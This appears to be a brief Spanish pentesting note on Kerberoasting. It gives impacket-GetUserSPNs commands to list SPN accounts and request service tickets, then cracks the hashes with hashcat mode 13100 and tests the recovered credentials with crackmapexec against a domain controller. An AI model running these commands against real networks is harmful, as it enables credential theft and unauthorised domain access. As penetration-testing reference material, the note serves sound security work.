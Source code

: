 Para esto podemos usar el módulo de impacket.

Debemos utilizarlo contra un DC y necesitamos tener credenciales de un usuario (en texto plano o en NTLM), una shell en contexto de un usuario de dominio o una cuenta de system.

Listar los usuarios con SPN

    sudo impacket-GetUserSPNs -dc-ip <dc_ip> <dominio>/<user>

Pedir tickets para todos los usuarios:

    sudo impacket-GetUserSPNs -dc-ip <ip_dc> <dominio>/<user>:'pass' -request -outputfile <file_de_guardado>

Pedir tickets para un usuario puntual:

    sudo impacket-GetUserSPNs -dc-ip <ip_dc> <dominio>/<user> -request-user <user_victima> -outputfile <file_de_guardado>  (es importante generar el export así luego podemos crackear el archivo)


Una vez tenemos el hash podemos crackearlo con hashcat 13100

y luego podemos probar conectarnos:

    sudo crackmapexec smb <dc_ip> -u <user> -p <pass>


